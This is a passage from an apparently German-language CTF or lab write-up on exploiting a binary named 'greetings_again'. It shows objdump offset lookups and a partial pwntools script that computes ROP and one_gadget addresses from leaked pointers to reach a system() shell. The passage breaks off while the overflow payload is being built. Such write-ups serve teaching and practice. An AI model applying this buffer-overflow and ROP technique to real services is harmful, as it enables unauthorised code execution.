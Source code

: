 ```bash
$ objdump -T DOCKER_libc-2.31.so | grep " printf"
0000000000053cf0 g    DF .text  00000000000000c8  GLIBC_2.2.5 printf
0000000000053c10 g    DF .text  000000000000001c  GLIBC_2.2.5 printf_size_info
0000000000053230 g    DF .text  00000000000009db  GLIBC_2.2.5 printf_size
```

Der Offset `0000000000053cf0` sollte erneut notiert werden.

Zusätzlich wird der Offset der Funktion `greetings` benötigt, um die ROP Chain zu starten.

```bash
$ objdump -t greetings_again | grep greetings
greetings_again:     file format elf64-x86-64
0000000000000000 l    df *ABS*  0000000000000000              greetings_again.c
00000000000011e2 g     F .text  0000000000000072              greetings
```

Der Offset `00000000000011e2` sollte ebenfalls notiert werden.

Die notierten Offsets werden abschließend in das Script eingefügt und ausgeführt.
Die Offsets werden an zwei Stellen benötigt. Zum einen bei `rop1` und zum anderen bei `rop2`.

rop1 wird verwendet um die Bedingungen für `rop2` (den tatsächlichen Exploit) zu erfüllen.

```python
#!/usr/bin/env_python
from pwn import *
from requests import *
import sys
import os
from binascii import hexlify

context.arch = 'amd64'

def get_addresses():
    # lib = ELF("./libc.so.6")
    #e = ELF("./greetings_again")
    HOST = "localhost"
    PORT = 4004
    p = remote(HOST, PORT)
    # p = process("./greetings_again")

    output = p.recvuntil("werden?\n")
    output = str(output).split(":")

    addresses = (output[2].split("\\n")[0], output[3].split(
        "\\n")[0], output[4].split("\\n")[0])
    print(addresses)

    address_greetings = addresses[2]
    address_greetings = int(address_greetings, 0)

    # ROPchain: 0x00000000000012b4 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
    # rop1 wird zum vorbereiten des stack für die system() funktion genutzt
    # rop1 = address_greegins - offset address greetings (objdump) + ROP chain (ROPgadget)
    rop1 = address_greetings - 0x00000000000011e2 + 0x00000000000012b4
    print("rop1 0x%x" % rop1)
    address_printf = addresses[1]
    address_printf = int(address_printf, 0)

    # rop2 wird zum ausführen der system() payload genutzt
    # rop2 = address_printf - printf(OFFSET) + gadget (one_gadget)
    rop2 = address_printf - 0x0000000000053cf0 + 0xc961a
    print("rop2 0x%x" % rop2)

    payload = [
        b"A"*216,
```